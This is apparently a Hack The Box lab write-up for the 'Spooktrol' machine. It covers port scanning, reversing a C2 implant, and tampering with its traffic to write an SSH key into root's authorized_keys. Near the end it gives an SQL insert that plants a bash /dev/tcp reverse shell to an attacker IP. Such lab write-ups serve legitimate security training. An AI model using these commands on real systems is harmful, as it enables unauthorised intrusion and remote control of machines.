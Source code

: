 # Enumeration

## Nmap

```bash
sudo nmap -sV -sC -oA nmap/spooktrol 10.10.11.123

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp   open  http    uvicorn
| http-robots.txt: 1 disallowed entry 
|_/file_management/?file=implant
|_http-server-header: uvicorn
|_http-title: Site doesn't have a title (application/json).
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     date: Wed, 27 Oct 2021 07:30:24 GMT
|     server: uvicorn
|     content-length: 22
|     content-type: application/json
|     Connection: close
|     {"detail":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 200 OK
|     date: Wed, 27 Oct 2021 07:30:10 GMT
|     server: uvicorn
|     content-length: 43
|     content-type: application/json
|     Connection: close
|     {"auth":"1f74a681bac81a97711d9316b1da1e68"}
|   HTTPOptions: 
|     HTTP/1.1 405 Method Not Allowed
|     date: Wed, 27 Oct 2021 07:30:17 GMT
|     server: uvicorn
|     content-length: 31
|     content-type: application/json
|     Connection: close
|_    {"detail":"Method Not Allowed"}
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 16:77:76:8a:65:a3:db:23:11:21:66:6e:e4:c3:f2:32 (RSA)
|   256 61:92:eb:7a:a9:14:d7:60:51:00:0c:44:21:a2:61:08 (ECDSA)
|_  256 75:c1:96:9c:69:aa:c8:74:ef:4f:72:bd:62:53:e9:4c (ED25519)

```


Three ports

- 22
- 80
- 2222

Downloading binary from `/file_management/?file=implant` as mentioned in robots.txt


```bash
wget 'http://10.10.11.123/file_management/?file=implant'
```

# Foothold

## Implant

On running the binary hit some error regarding `json`

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028162957.png)


Running wireshark 

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028164325.png)

we found the domain and need to add to `/etc/hosts` file.

Analyzing binary in ghidra 

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028164739.png)

1st flag

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028164912.png)

break at `0x402013` to get 1st flag using `gdb`.

`finish` the function then you will get the flag.

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028165356.png)

# User

break at system in upload funtion in case 3

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028165651.png)


inorder to acheive case three we can use burpsuite, first we need to interscept at locally the binnary 

change host file as following.

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028165920.png)

Then add a second proxy at burp.

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028170055.png)

Thirdly use socat to redirect port 8081 to port 80

`sudo socat TCP-LISTEN:80,fork,reuseaddr TCP:127.0.0.1:8081`

next use match and replace to change reponse task1 to task3

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028170359.png)

its worked.

```bash

┌[parrot]─[17:03-28/10]─[/home/aju/Hackthebox/machines/spooktrol]
└╼aju$./implant
{"status":0,"id":3,"arg1":"whoami","result":"","target":"1ed93eb3a3e09689276ab2412390db3e","task":3,"arg2":""}
curl: (26) Failed to open/read local data from file/application
{"status":0,"id":3,"arg1":"whoami","result":"","target":"1ed93eb3a3e09689276ab2412390db3e","task":3,"arg2":""}
curl: (26) Failed to open/read local data from file/application


```

It returned as an error beause it is looking for some like we need to find that using gdp. lets break at system.

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028184718.png)

On examine at $rdi we can find that it is looking for file `whoami` lets replace that in burpsuite in `match and replace` into `/etc/passwd`


![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028184924.png)


we got replaced in next attempt.

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028185028.png)


![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028185049.png)
Now lets change `/etc/passwd` to our ssh public key


![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028185303.png)


upload the public to root's authorized_keys

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028185412.png)

# Root

Logged in as root in docker.

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028185502.png)

insert reverse into database task

`INSERT INTO tasks VALUES(13,'10a6dd5dde6094059db4d23d7710ae12',0,1,'bash -c "bash -i >& /dev/tcp/10.10.14.82/9001 0>&1"','',X'726f6f740a');`

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028190236.png)

Got reverse shell as root

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/(Pasted%20image%2020211028190141.png)